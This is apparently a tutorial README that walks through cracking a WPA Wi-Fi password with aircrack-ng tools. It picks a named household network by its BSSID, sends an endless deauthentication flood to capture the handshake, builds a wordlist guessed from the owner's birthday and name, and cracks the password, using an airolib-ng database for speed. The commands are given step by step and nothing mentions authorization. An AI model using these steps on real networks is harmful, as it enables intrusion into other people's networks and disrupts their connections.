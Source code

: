 ## Example crack wpa attack speed with airolib-ng, aircrack-ng

i use tp-link wn725n and on parrotOS, the name of it is ridiculous

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/166419875-330952f9-ce4a-416d-b403-ec2d39ecc3dc.png)

```
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166419967-2d8d1bd2-eb49-40b7-b46f-cf52497eba4b.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420371-20c0ce94-e653-4cda-b87b-72f071d94a49.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19`

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420867-1c3d3d5a-5c26-4f67-b271-84f9a19c81d0.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

i know the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

it also a very very big file (11GB and 1,2 billion passwords)

![image](https://user-images.githubusercontent.com/90561566/166421946-28b579db-7fb3-4cee-b1a4-797bd3a7212a.png)

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap 
```

![image](https://user-images.githubusercontent.com/90561566/166422150-4ae8f0bd-47a0-4d57-9ddf-5f7905228535.png)


but i will use database to speed up the attack

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166422433-22e160bf-31f9-4f9f-b512-ca67102d790f.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats
airolib-ng crackwpa --clean all
airolib-ng crackwpa --batch
```


















